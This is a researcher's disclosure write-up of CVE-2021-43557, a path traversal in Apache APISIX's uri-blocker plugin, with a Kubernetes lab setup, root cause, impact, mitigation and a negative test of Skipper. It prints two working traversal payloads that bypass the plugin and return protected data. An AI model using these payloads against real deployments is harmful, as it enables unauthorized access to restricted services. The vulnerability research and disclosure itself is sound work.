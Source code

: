 ```yaml
---
title: "Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)"
author: "Marcin Niemiec"
authorURL: "https://github.com/xvnpw"
authorImageURL: "https://avatars.githubusercontent.com/u/17719543?v=4"
keywords: 
- Apache APISIX
- CVE
- Request_uri
- Security
description: Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)
tags: [Technology]
---
```


> Research report about Apache APISIX Path traversal in request_uri variable(CVE-2021-43557)

<!--truncate-->

In this article I will present my research on insecure usage of `$request_uri` variable in [Apache APISIX](https://github.com/apache/apisix-ingress-controller/) ingress controller. My work end up in submit of security vulnerability, which was positively confirmed and got CVE-2021-43557\. At the end of article I will mention in short [Skipper](https://github.com/zalando/skipper) which I tested for same problem.

> Apache APISIX is a dynamic, real-time, high-performance API gateway. APISIX provides rich traffic management features such as load balancing, dynamic upstream, canary release, circuit breaking, authentication, observability, and more.

Why `$request_uri` ? This [variable](https://nginx.org/en/docs/http/ngx_http_core_module.html#var_request_uri) is many times used in authentication and authorization plugins. It’s **not normalized**, so giving a possibility to bypass some restrictions.

In Apache APISIX there is no typical functionality of external authentication/authorization. You can write your own plugin, but it’s quite complicated. To prove that APISIX is vulnerable to path-traversal I will use `uri-blocker` plugin. I’m suspecting that other plugins are also vulnerable but this one is easy to use.

## Setting the stage

Install APISIX into Kubernetes. Use helm chart with version **0.7.2**:

```shell
helm repo add bitnami https://charts.bitnami.com/bitnami
helm repo update
kubectl create ns ingress-apisix
helm install apisix apisix/apisix \
  --set gateway.type=NodePort \
  --set ingress-controller.enabled=true \
  --namespace ingress-apisix \
  --version 0.7.2
kubectl get service --namespace ingress-apisix
```

In case of problems follow [official guide](https://github.com/apache/apisix-ingress-controller/blob/master/docs/en/latest/deployments/minikube.md).

To create _ingress route_, you need to deploy `ApisixRoute` resource:

```yaml
apiVersion: apisix.apache.org/v2beta1
kind: ApisixRoute
metadata:
  name: public-service-route
spec:
  http:
  - name: public-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /public-service/*
    backends:
        - serviceName: public-service
          servicePort: 8080
    plugins:
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/public-service/(.*)", "/$1"]
  - name: protected-service-rule
    match:
      hosts:
      - app.test
      paths:
      - /protected-service/*
    backends:
        - serviceName: protected-service
          servicePort: 8080
    plugins:
      - name: uri-blocker
        enable: true
        config:
          block_rules: ["^/protected-service(/?).*"]
          case_insensitive: true
      - name: proxy-rewrite
        enable: true
        config:
          regex_uri: ["/protected-service/(.*)", "/$1"]
```

Let’s dive deep into it:

- It creates routes for `public-service` and `private-service`
- There is `proxy-rewrite` turned on to remove prefixes
- There is `uri-blocker` plugin configured for `protected-service`. It can look like mistake but this plugin it about to block any requests starting with `/protected-service`

## Exploitation

I’m using APISIX in version **2.10.0**.

Reaching out to APISIX routes in minikube is quite inconvenient: `kubectl exec -it -n ${namespace of Apache APISIX} ${Pod name of Apache APISIX} -- curl --path-as-is http://127.0.0.1:9080/public-service/public -H 'Host: app.test'`. To ease my pain I will write small script that will work as template:

```shell
#/bin/bash

kubectl exec -it -n ingress-apisix apisix-dc9d99d76-vl5lh -- curl --path-as-is http://127.0.0.1:9080$1 -H 'Host: app.test'
```

In your case replace `apisix-dc9d99d76-vl5lh` with name of actual APISIX pod.

Let’s start with validation if routes and plugins are working as expected:

```shell
$ ./apisix_request.sh "/public-service/public"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"public data"}
```

```shell
$ ./apisix_request.sh "/protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>openresty</center>
</body>
</html>
```

Yep. `public-service` is available and `protected-service` is blocked by plugin.

Now let’s test payloads:

```shell
$ ./apisix_request.sh "/public-service/../protected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

and second one:

```shell
$ ./apisix_request.sh "/public-service/..%2Fprotected-service/protected"
Defaulted container "apisix" out of: apisix, wait-etcd (init)
{"data":"protected data"}
```

As you can see in both cases I was able to bypass uri restrictions.

### Root cause

`uri-blocker` plugin is using `ctx.var.request_uri` variable in logic of making blocking decision. You can check it in [code](https://github.com/apache/apisix/blob/11e7824cee0e4ab0145ea7189d991464ade3682a/apisix/plugins/uri-blocker.lua#L98):

![Cause](https://static.apiseven.com/202108/1637634166887-e3805291-5b00-4b7b-9936-0490266f4ed8.png)

### Impact

- Attacker can bypass access control restrictions and perform successful access to routes that shouldn’t be able to,
- Developers of custom plugins have no knowledge that `ngx.var.request_uri` variable is untrusted.

Search for usage of `var.request_uri` gave me a hint that maybe [authz-keycloak plugin](https://github.com/apache/apisix/blob/master/docs/en/latest/plugins/authz-keycloak.md) is affected. You can see [this code](https://github.com/apache/apisix/blob/a3d42e66f60673e408cab2e2ceedc58aee450776/apisix/plugins/authz-keycloak.lua#L578), it looks really nasty. If there is no normalization on keycloak side, then there is high potential for vulnerablity.

### Mitigation

In case of custom plugins, I suggest to do path normalization before using `ngx.var.request_uri` variable. There are also two other variables, high probably normalized, to check `ctx.var.upstream_uri` and `ctx.var.uri`.

## Skipper

Skipper is another ingress controller that I have investigated. It’s not easy to install it in kubernetes, because deployment guide and helm charts are outdated. Luckily I have found issue page where developer was describing how to install it. This ingress gives possibility to implement external authentication based on [webhook filter](https://opensource.zalando.com/skipper/reference/filters/#webhook):

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    zalando.org/skipper-filter: |
            modPath("^/.*/", "/") -> setRequestHeader("X-Auth-Request-Redirect", "${request.path}") -> webhook("http://auth-service.default.svc.cluster.local:8080/verify")
```

To add some interesting headers that could help in access control decision, you need to do it manually with `setRequestHeader` filter. There is template available to inject variable by `${}`. Sadly (for attackers) `${request.path}` is having normalized path. I see in code that developers are not using _easily_ `RequestURI` or `originalRequest`.

I wasn’t able to exploit path traversal in this case. Skipper remains safe.

## Summary

Apache APISIX is vulnerable for path traversal. It’s not affecting any external authentication, but plugins that are using `ctx.var.request_uri` variable.

Whole code of this example is here [https://github.com/xvnpw/k8s-CVE-2021-43557-poc](https://github.com/xvnpw/k8s-CVE-2021-43557-poc).
